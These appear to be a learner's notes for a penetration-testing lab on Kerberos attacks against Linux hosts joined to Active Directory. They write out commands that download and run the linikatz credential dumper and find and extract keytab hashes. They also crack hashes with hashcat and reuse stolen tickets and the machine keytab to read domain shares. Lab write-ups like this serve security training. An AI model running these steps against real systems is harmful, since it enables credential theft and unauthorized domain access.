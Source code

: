 ## Linikatz download and execution:
- `wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh`
- `/opt/linikatz.sh`
	- ![[Pasted image 20250705060647.png]]

# Labs
---
=> Which group can connect to LINUX01?
- `realm list`
- ![[Pasted image 20250705061613.png]]

=> Look for a keytab file that you have read and write access. Submit the file name as a response. 
- `find / -name *keytab* 2>/dev//null`

=> Extract the hashes from the keytab file you found, crack the password, log in as the user and submit the flag in the user's home directory. 
- `scp -P 2222 david@inlanefreight.htb@10.129.204.23:/opt/specialfiles/carlos.keytab .`
- `python3 /opt/PNPT-Tools/tools/keytabextract.py carlos.keytab`
	- ![[Pasted image 20250705061935.png]]
- `hashcat -a 0 -m 1000 carlos.hash /usr/share/wordlists/rockyou.txt`
	- ![[Pasted image 20250705062040.png]]
- `su carlos@inlanefreight.htb`

=> Check Carlos' crontab, and look for keytabs to which Carlos has access. Try to get the credentials of the user svc_workstations and use them to authenticate via SSH. Submit the flag.txt in svc_workstations' home directory. 
	![[Pasted image 20250705062214.png]]
	![[Pasted image 20250705064441.png]]
- ` python3 /opt/PNPT-Tools/tools/keytabextract.py svc_workstations._all.kt`
- `hashcat -m 1000 -a 0 svc_work.hash /usr/share/wordlists/rockyou.txt`![[Pasted image 20250705064529.png]]
- `cd /home/svc_workstations@inlanefreight.htb/`

=> Get Root Access with `sudo su`

=>  Check the /tmp directory and find Julio's Kerberos ticket (ccache file). Import the ticket and read the contents of julio.txt from the domain share folder \\DC01\julio. 
- `ls -lah /tmp | grep julio`
	- ![[Pasted image 20250705065313.png]]
	- One of these **==were expired, so have to check both using `klist`==**
	- ![[Pasted image 20250705065346.png]]
- `smbclient //dc01/julio -k -no-pass`

=> Use the LINUX01$ Kerberos ticket to read the flag found in \\DC01\linux01. Submit the contents as your response (the flag starts with Us1nG_).
- Impersonate as LINUX joined machine using its keytab file which is used to interact with AD env.
	- `kinit LINUX01$ -k -t /etc/krb5.keytab`
	- `smbclient //DC01/linux01 -k --no-pass`